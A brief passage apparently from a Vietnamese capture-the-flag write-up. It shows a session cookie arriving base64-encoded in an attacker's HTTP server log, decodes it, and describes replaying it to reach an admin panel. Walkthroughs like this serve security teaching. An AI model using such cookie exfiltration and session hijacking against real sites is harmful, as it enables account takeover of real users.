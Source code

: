 ![image.png](imgs/image%202.png)

Check log bên http server:

```bash
10.10.11.53 - - [10/Feb/2025 13:32:31] "GET /UEhQU0VTU0lEPW8yMmhjamExZXY4aDlhMzgzZThsdnVoMWtn HTTP/1.1" 404 -
```

Tiến hành decode:

```bash
$ echo UEhQU0VTU0lEPW8yMmhjamExZXY4aDlhMzgzZThsdnVoMWtn | base64 -d
PHPSESSID=o22hcja1ev8h9a383e8lvuh1kg 
```

Thay cookie và chúng ta có thể truy cập được admin panel:
